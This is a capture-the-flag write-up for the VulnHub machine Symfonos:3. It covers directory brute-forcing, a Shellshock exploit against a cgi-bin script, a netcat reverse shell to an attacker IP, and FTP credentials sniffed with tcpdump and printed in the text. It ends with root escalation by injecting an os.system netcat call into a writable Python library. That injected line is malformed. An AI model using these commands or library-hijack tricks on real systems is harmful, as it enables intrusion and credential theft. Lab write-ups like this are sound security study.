<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/symfonos-2,331/">Symfonos:3</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

***

```
symfonos:3 - Intermediate real life based machine designed to test your skill at enumeration. If you get stuck remember to try different wordlist, avoid rabbit holes and enumerate everything thoroughly. Should be on @VulnHub
 soon. (link: https://blog.zay.li/symfonos-3-boot2root-ctf/) blog.zay.li/symfonos-3-boo…
```

***
## Nmap



Okay no SMB port this time, cool. We'll just start with HTTP

***

## HTTP


Damn it looks good.

Looking in the source I got something:



In the comment it says `<!-- Can you bust the underworld? -->`.

I think this is refering to `dirbuster`. I'll try `gobuster`.



We got a page `/gate` let's see where this page will take us.


it's like the same website we got on the main page.

I didn't found anything in the source.



First I started thinking that it's just a rabbit hole but then I thought the initial message said something about the `underworld` and underworld goes deep. So I ran the dir search scan again but now on `http://IP/gate` and found something.




This seems like we need to continue to do this until we find anything that might give us SHELL or some info about FTP/SSH logins.



okay I didn't find anything else ahead of this. Let's start digging in those URLs.

***

I found a comment on `/gate/cerberus/tartarus`



This could mean we are going in the rabbit hole, but let's just go in and see how harsh this underworld is. 😜😜

I got `Forbidden` error in `/charon` and `/hermes`.

But in `/cerberus/tartarus/research` I got lot of plain text. This was a rabbit hole since there wasn't anything.

Now we are back to square one and since we are on the very first step, I started gobuster again with [big.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/big.txt).



This time we see another directory named `cgi-bin`. Let's see if we can find anything in this.

I didn't find anything with the `big.txt` but I got something we were looking for with [directory-list-2.3-medium.txt](https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-medium.txt).



😌😌😌😌😌

We found the DAMN underworld!!!

***

## Reverse Shell



This looks like the output of `uptime` command. If we run on our system we can see the similar output:



The interesting thing about this is that if we visit any URL after `/underworld` we just get the uptime of the machine.



This is probably `shellshock` vulnerability. If you don't know about that then `DAMN YOU!!!` lol. Just read about shellshock you'll know.

We can search for an exploit using `searchsploit`.



I used the [exploits/34766](https://www.exploit-db.com/exploits/34766) and it worked!!



🎉🎉🎉🎉🎉🎉

Now we can get the reverse shell.

* Run

```bash
➜ php bash.php -u http://symfonos.local/cgi-bin/underworld/ -c "nc -e /bin/bash 192.168.1.107 4444"
```

* Spawn the shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

And we have a shell.



***
***

## Horizontal Privilege escalation

Since we are in the system let's just run our enumeration script to see if we can find anything.

Obviously(zayotic is very smart :-) we didn't find anything with the enumeration script except that there's another user name `hades`.

We need to keep something in mind, there was a FTP server running, I am not sure why it was there but if we don't find anything on the system then we might have to dig in there.

I started to look around with basic enumeration commands but got nothing. So I decided to run `pspy` to see what all process are running in background.

I noticed something.



If we try to see the content of that python file we won't be able to cat it because it had `hades` permission.



But we are sure about one thing i.e `that script is sending some data to ftp`.
Since FTP is plain text protocol we can read that data if we can capture those packets.

To do so we'll use the `tcpdump` command to capture whatever data is being sent or received.

__Thanks to @zayotic for giving a hint about tcpdump__

I ran the tcpdump command

```bash
$ tcpdump -w ftp.pcap -i enp0s17
```

__Command explanation__

* `-w`: Write all the data to a file called `ftp.pcap`
* `-i`: interface to listen on. To find which interface to use run `tcpdump -D`

We can see all the interfaces.



Let the command run for sometime so we can get enough data.

Then I pulled the file to my system using `python -m SimpleHTTPServer` on the machine.



I analyzed this PCAP but got nothing that might give us access to FTP/hades.

I tried again but this time I listened to another interface i.e `lo`. On that interface I got the credentials for Hades in the FTP data that was being sent by the cron we saw.



`hades: PTpZTfU4vxgzvRBE`

using these credentials we can login into hades SSH account.

***

## Vertical Privilege escalation

One thing we know is that there isn't anything like SUID. I even checked the `sudo` right but `sudo` command was not found.

The only interesting thing we know about the system is that there's file called `ftpclient.py` in `/opt/ftpclient/` running as `root`, we saw that in `pspy` output. And it connects with ftp using `ftplib.py`. If we can edit that(`ftplib.py`)imported file we can get a root reverse shell through that.

But first we should see if we have permission to edit python libraries or not.



We can see that `ftplib.py` can be edited by `gods` group and current user i.e `hades` belong to that group. So we can add the following lines in the starting of the `ftplib.py` right after the `imports`:

```python
import os
os.system("nc -e 192.168.1.107 4444 >/tmp/f")
```



Now just wait for sometime(or run some random commands to speed up the process) and we'll have the root reverse shell.





***
Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
